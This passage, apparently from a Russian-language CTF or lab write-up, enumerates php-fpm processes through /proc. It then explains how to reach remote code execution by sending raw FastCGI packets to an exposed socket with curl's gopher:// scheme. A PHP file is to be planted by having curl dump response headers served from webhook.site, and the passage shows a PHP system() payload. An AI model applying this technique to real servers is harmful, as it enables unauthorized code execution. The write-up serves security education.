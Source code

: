 PPid равен 6, теперь попробуем прочитать `/proc/6/status`:

```
Name:	php-fpm7.4
Umask:	0022
State:	S (sleeping)
Tgid:	6
Ngid:	0
Pid:	6
PPid:	1
...
```

Ожидаемо, что родительский процесс тоже является процессом `php-fpm7.4`. Интересно, что его PPid равен 1, то есть он запущен уже инициализирующим процессом. Прочитаем `/proc/6/cmdline`:

```
php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
```

Мы видим, что его конфигурация определена в файле `/etc/php/7.4/fpm/php-fpm.conf`, который мы уже видели. Для полноты картины можно прочитать `cmdline` у процесса с Pid 1 и посмотреть, как `php-fpm: master process` запускался:

```
/bin/sh -c php-fpm7.4 -F -O -y /etc/php/7.4/fpm/php-fpm.conf -c /etc/php/7.4/fpm/php.ini
```

Мы снова видим тот же самый конфигурационный файл, который принудительно указали в аргументах для процесса `php-fpm7.4`. 

---

Отлично, теперь мы знаем, что процессы `php-fpm7.4` слушают сокет `0.0.0.0:31337` и читают оттуда команды для исполнения. Мы можем сами собрать CGI-пакет и передать его в сокет, используя `curl`. Протокол CGI бинарный, поэтому нам придётся передавать сырые байты. Для этой цели подходит, например, протокол `gopher://`, реализованный в `curl`. Но какие данные нужно передавать? 

У CGI есть много параметров ([вот их список](http://www.faqs.org/rfcs/rfc3875.html)), но нас интересуют всего три:

- **REQUEST_METHOD** — название HTTP-метода (GET, POST, ...)
- **SCRIPT_FILENAME** — имя файла со скриптом, который нужно исполнить
- **PHP_ADMIN_VALUE** — специальный параметр PHP, который отвечает за передачу конфигурационных опций для PHP

Таким образом, если у нас в системе будет файл со скриптом на PHP, в котором будет лежать наш код, то мы сможем исполнить этот код через передачу специального пакета в CGI-сокет. Осталось придумать, как создать нужный файл. Один из способов — использовать возможности `curl`. В мануале к `curl` описан специальный параметр, который позволяет записать заголовки ответа в файл:

```
-D, --dump-header <filename> Write the received headers to <filename>
```

Для того, чтобы сделать такой URL, который в заголовках ответа будет возвращать нужные нам данные, можно использовать сервис [Webhook.site](https://webhook.site/). Например, мы хотим, чтобы сервер возвращал `<?php system('id > /tmp/result'); ?>`:

